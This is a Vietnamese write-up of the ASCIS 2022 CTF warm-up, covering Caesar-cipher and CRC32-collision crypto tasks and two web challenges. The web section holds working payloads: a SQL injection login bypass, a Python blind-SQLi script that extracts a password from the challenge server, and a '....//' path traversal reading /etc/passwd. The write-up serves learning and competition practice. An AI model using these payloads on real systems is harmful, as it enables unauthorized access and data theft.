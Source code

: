 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# ASCIS 2022 - warm up

## Crypto

### I came, I saw, I conquered

#### chall

```
jhlzhy dhz h wvspapjphu huk nlulyhs vm aol shal yvthu ylwbispJ, dov nylhasf lealuklk aol yvthu ltwpyl ilmvyl zlpgpun wvdly huk tHrpun optzlsm kpjahavy vm yvtl, whcpun aol dhf mvy aol ptwlyphs zfzalt.

qbspbz jhlzhy dhz ivyu pu yvtL vu 12 vy 13 qbsf 100 ij puav aol wylzapnpvbz qbsphu jshu. opz mhtpsf dlyl jsvzlsf jvuuljalk dpao aol thyphu mhjapvu pu yvthu wvspapjz. jhlzhy optzlsm wyvnylzzlk dpaopu aol yvthu wvspapjhs zfzalt, iljvtpun pu zbjjlzzpvu xbhlZavy (69), hlkpsl (65) huk wyhlavy (62). pu 61-60 ij ol zlyclk hz nvclyuvy vm aol yvtHu wyvcpujl vm zwhpu. ihjr pu yvtl pu 60, jhlzhy thkl h whja dpao wvtwlf huk jyhzzbz, dov olswlk opt av nla lsljalk hz jvuzbs mvy 59 ij. aol mvssvdpun flhy ol dhz hwwvpualk nvclyuvy vm yvthu nhbs dolyl ol zahflk mvy lpnoa flhyz, hkkpun aol dovsl vm tvklYu myhujl huk ilsnpbt av aol yvthu ltwpyl, huk thrPun yvtl zhml myvt aol wvzzpipspaf vm nhsspj puchzpvuz. ol thkl adv lewlkpapvuz av iYpahpu, pu 55 ij huk 54 ij.

jhlzhy aolu yLabyulk av pahsf, kpzylnhykpun aol Hbaovypaf vm aol zluhal huk mhtvbzsf jyvzzpun aol ybipjvu ypcly dpaovba kpzihukpun opz hytf. pu aol luzbpun jpcps dhy jhlzhy klmlhalk aol ylwbispjhu mvyjlz. wvtwlf, aolpy slhkly, mslk av lnfwa dolyl ol dhz hzzhzzpuhalk. jhlzhy mvssvdlk opt huk iljhtl yvthuapjhSsf pucvsclk dpao aol lnfwaphu xbllu, jslvwhayh.

jhlzhy dhz uvd thzaly vm yvtl huk thkl optzlsm jvuzbs huk kpjahavy. ol bzlk opz wvdly av jhyyf vba tbjo-ullklk ylmvyt, ylsplcpun klia, lushynpun aol zluhal, ibpskpun aol mvybt pbspbt huk ylcpzpun aol jhslukhy. kpjahavyzopw dhz hsdhfz ylnhyklk h altwvyhyf wvzpapvu iba pu 44 ij, jhlzhy avvr pa mvy spml. opz zbjjlzz huk htipapvu hspluhalk zayvunsf ylwbispjhu zluhavyz. h nyvbw vm aolzl, slk if jhzzpbz huk iybabz, hzzhzzpuhalk jhlzhy vu aol pklz (15) vm thyjo 44 ij. aopz zwhyrlk aol mpuhs yvbuk vm jpcps dhyz aoha luklk aol ylwbispj huk iyvbnoa hivba aol lslchapvu vm jhlzhy'z nylha ulwold huk klzpnuhalk olpy, vjahcphu, hz hbnbzabz, aol mpyza ltwlyvy.
```

#### Work-flow

* Brute Decryt Caesar -> với key bằng 7 ta có được plaintext
* Để ý các chữ cái viết hoa
* Viết một đoạn script ngắn nối chúng lại

#### solve

```python
f = open("cipher.txt", "r")
cipher = f.read()
import string 
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"
for i in cipher: 
	if i == i.upper() and i in alpha :
		print(i, end="")
```

### Checksum

#### Chall

```python
import binascii

FLAG = 'ASCIS{XXXXXXXXXXX}'

def check_key(passwd):
    if len(passwd) < 16:
        return False
    if binascii.crc32(passwd.encode()) != binascii.crc32(FLAG.encode()):
        return False
    return True

password = input('What is the password?: ')
if check_key(password):
    print('Correct! Here is the flag: ' + FLAG)
else:
    print('Sorry! This is the hash we want:' + str(hex(binascii.crc32(FLAG.encode()))))
```



#### Work-flow

* Từ code ta phân tích được cần tìm một chuỗi có crc32 trùng với crc32 của FLAG
* Lúc này ta nhập bừa trước để có crc32 của flag
* Nhập thử nhiều lần để chắc rằng flag không bị refresh

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Đến đây ta decode hex và tìm được crc32 cần phải có là: **1706263782**

Lúc mới vào nhìn bài 1 mình hơi phân vân nên có nhảy sang bài 2 scout trước, ai ngờ đề có lỗi do không có trường hợp else để ra dạng crc32 của FLAG, lúc đó mình hơi hoảng và tư duy theo hướng brute force như thế nào?

Search quanh một xíu được vài tài liệu hay ho, chuẩn bị bắt tay vào code ... thì BTC fix lại đề, cập nhập thêm vế else uiiii thiên thời địa lợi nhân hòa, đến đây thì như cá gặp được nước rồi :)).

* Mình tìm được doc [<mark style="color:blue;">này</mark>](https://github.com/fyxme/crc-32-hash-collider)<mark style="color:blue;"></mark>
* Người ta đã code sẳn tool rồi việc còn lại là đổi số **target** và **length** string cần tìm

```
const target = 1706263782 & 0xffffffff

// max string length
maxLen := 16
```

#### solve

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption><p>Lúc brute tool này thì cơ bản xem máy nào mạnh hơn thôi</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption><p>Lâu lâu hóa chaos được lần </p></figcaption></figure>

* Kỉ niệm lâu lâu được lần solve thứ 2 :smile:

## WEB

### AscisStore1

#### chall

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption><p>Trang web bán hàng có chức năng login và register</p></figcaption></figure>

#### Work-flow

* Chọt phá dòng quanh -> khai thác SQLi ở login
* Khi thực hiện đăng nhập vào một user đã register -> sẽ đăng nhập vào tài khoản với tên user tương ứng hiện ở góc trên bên trái
* Ở login phần username, thử đoạn payload quốc dân:

```
' or 1=1 --  
```

* Lúc này nhận thấy server trả về với user **`flag`**
* Thử với username như sau (có khoảng trắng ở sau dấu comment -- )

```
' or ord(substring(password,1,1)) = 65 --  
```

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption><p>Thử với 65 do ta biết chữ cái đầu tiên của format là A</p></figcaption></figure>

* Như vậy có thể đoán được khá chắc password của user **flag** chính là secret cần tìm
* Lúc này ta chỉnh lại query userser cho đúng với target, để tránh brute force sai

```
flag' and ord(substring(password,{index},1)) = {char} -- 
```

* and ở đây để cố định password cho username đã biết là: **`flag`**
* Nếu dùng or như ở trên sẽ dẫn đến trường hợp kết quả password query được chính là của toàn bộ database -> brute sai
* Ở đây mình không dùng query ở dạng char để so sánh vì SQL không phân biệt chữ hoa hay chữ thường, đúng vậy 's' = 'S' là **true** đấy. Lúc còn 30' cuối một thằng trong team la lên mới nhận ra chổ này, chuyển sang lại dec để brute, nếu không hẳn là quằng lắm :)).

#### solve

```python
import request

url = "http://34.143.158.202:4111/index.php?page=login"
#SELECT * from users WHERE username='flag' AND ord(substring(password,{index},1)) = {char} -- '

def solve():
	index = 1
	flag = ""
	while True:
		for char in range(32,128):
			usernamefield = f"flag' and ord(substring(password,{index},1)) = {char} -- "
			print(chr(char))
			passwordfield = "a"
			postParam = {'username': usernamefield, 'password': passwordfield}
			response = requests.post(url, data=postParam)
			if "flag" in response.text:
				flag += chr(char)
				print("index:",index,"  ", flag )
				index +=1
				break
		if flag.endswith("}"):
			break


solve()py
#index: 23    ASCIS{SQ11-I5-t0o-EA$Y}
```

### AscisStore2

#### Chall

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>web bán hàng tương tự bài trên nhưng có chức năng profile</p></figcaption></figure>

#### Work-flow

* Chấm mút quanh chức năng mới -> chức năng profile cho đăng ảnh lên
* Rất có khả năng là File up load to RCE hoặc path travesal
* Up thử tấm ảnh nyc lên :

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

* Sau khi up lên ta thấy path trong đó có file image.php thì không còn nghi ngờ gì nữa -> path traversal for sure

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

#### solve

* Lần theo path rồi thử mọi cách path traversal thoi, chân ái is here:

```
....//....//....//....//....//....//....//....//....//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

## Lời thú tội của một đá thủ

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption><p>Top 10 khu vực miền nam - một câu RE2 chưa solve được</p></figcaption></figure>

> Gửi lời cảm ơn chân thành nhất đến với các người ae trong team
>
> Lâu rồi mới có cảm giác thú vị như những ngày đầu tiên tham gia CTF
>
> 4 tiếng thi đấu - Một ngày vui và học được nhiều thứ, đến lúc lui về ở ẩn rồi
>
> Cảm ơn ae.



Thanks for reading. Have a good day :heart: !
